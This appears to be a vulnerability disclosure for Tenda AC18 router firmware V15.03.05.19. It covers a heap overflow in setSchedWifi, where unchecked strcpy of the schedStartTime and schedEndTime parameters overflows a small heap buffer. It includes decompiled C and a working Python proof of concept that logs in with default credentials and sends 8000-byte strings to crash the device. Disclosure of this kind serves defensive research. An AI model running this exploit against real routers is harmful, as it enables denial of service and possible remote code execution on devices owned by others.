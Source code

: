 
## Tenda AC18 heap overflow vulnerability

### * Version

V15.03.05.19_multi (ac18_kf_V15.03.05.19(6318_)_cn.bin)

### * Firmware
[https://www.tenda.com.cn/download/detail-2683.html](https://www.tenda.com.cn/download/detail-2683.html)





### * Vulnerability Detail

In function setSchedWifi, the content obtained by the program from the parameter "schedStartTime" and "schedEndTime" are passed to local_24 and local_28, 
and then the local_24 and local_28 are directly copied into the local_34 heap through the strcpy function.
There is no size check, so there is a heap overflow vulnerability. The attacker can easily perform a Deny of Service Attack or Remote Code Execution with carefully crafted overflow data.

```c
void setSchedWifi(undefined4 param_1)

{
  int iVar1;
  undefined uVar2;
  bool bVar3;
  char acStack604 [256];
  undefined auStack348 [4];
  undefined auStack344 [128];
  undefined auStack216 [128];
  int local_58 [7];
  undefined4 local_3c;
  undefined4 local_38;
  undefined *local_34;
  char *local_30;
  char *local_2c;
  char *local_28;
  char *local_24;
  char *local_20;
  int local_1c;
  int local_18;
  int local_14;
  
  local_14 = 1;
  local_1c = 1;
  local_3c = 0;
  local_38 = 0;
  local_58[0] = 1;
  local_58[1] = 1;
  local_58[2] = 1;
  local_58[3] = 1;
  local_58[4] = 1;
  local_58[5] = 1;
  local_58[6] = 1;
  local_20 = (char *)FUN_0002ba8c(param_1,"schedWifiEnable",&DAT_000ee838);
  local_24 = (char *)FUN_0002ba8c(param_1,"schedStartTime",&DAT_000ee9a4);
  local_28 = (char *)FUN_0002ba8c(param_1,"schedEndTime",&DAT_000ee9a4);
  local_2c = (char *)FUN_0002ba8c(param_1,"timeType",&DAT_000ee9c4);
  local_30 = (char *)FUN_0002ba8c(param_1,"day","1,1,1,1,1,1,1");
  local_18 = 0;
  GetValue("wl.public.enable",&local_3c);
  if ((char)local_3c == '\0') {
    memcpy(&local_3c,&DAT_000ee838,2);
  }
  iVar1 = atoi(local_2c);
  if (iVar1 != 0) {
    sscanf(local_30,"%d,%d,%d,%d,%d,%d,%d",local_58,local_58 + 1,local_58 + 2,local_58 + 3,
           local_58 + 4,local_58 + 5,local_58 + 6);
  }
  SetValue("sys.sched.wifi.timeType",local_2c);
  local_34 = (undefined *)malloc(0x19);   //memory alloc
  local_1c = atoi(local_20);
  local_14 = mib2utc(local_24,local_28,local_30,auStack344,auStack216,0x80,0x80);
  if ((local_14 == 0) || (local_1c == 0)) {
    printf("%s\n%s\n",auStack344,auStack216);
    iVar1 = FUN_0008cc9c(auStack344,auStack216);
    if ((iVar1 == 0) || (local_1c == 0)) {
      SetValue("nkgw.wlan.offtime.list1",auStack344);
      SetValue("nkgw.wlan.ontime.list1",auStack216);
      if (local_34 != (undefined *)0x0) {
        iVar1 = atoi((char *)&local_3c);
        bVar3 = iVar1 == 0;
        if (bVar3) {
          iVar1 = 0;
        }
        uVar2 = (undefined)iVar1;
        if (!bVar3) {
          uVar2 = 1;
        }
        *local_34 = uVar2;
        iVar1 = atoi(local_20);
        bVar3 = iVar1 == 0;
        if (bVar3) {
          iVar1 = 0;
        }
        uVar2 = (undefined)iVar1;
        if (!bVar3) {
          uVar2 = 1;
        }
        local_34[1] = uVar2;
        strcpy(local_34 + 2,local_24);  //here is overflow
        strcpy(local_34 + 10,local_28); //here is overflow
        for (local_18 = 0; local_18 < 7; local_18 = local_18 + 1) {
          iVar1 = local_58[local_18];
          bVar3 = iVar1 == 0;
          if (bVar3) {
            iVar1 = 0;
          }
          uVar2 = (undefined)iVar1;
          if (!bVar3) {
            uVar2 = 1;
          }
          local_34[local_18 + 0x12] = uVar2;
        }
        FUN_000368cc(local_34,0);
  ...
}
```


### * POC

```python
import requests


cmd  = b'schedWifiEnable=0&schedStartTime=' + b'A' * 8000 + b'&schedEndTime=' + b'A' * 8000 + b'&timeType=0&day=1,1,1,1,1,1,1'


url = b"http://192.168.2.2/login/Auth"
payload = b"http://192.168.2.2/goform/openSchedWifi/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()


```
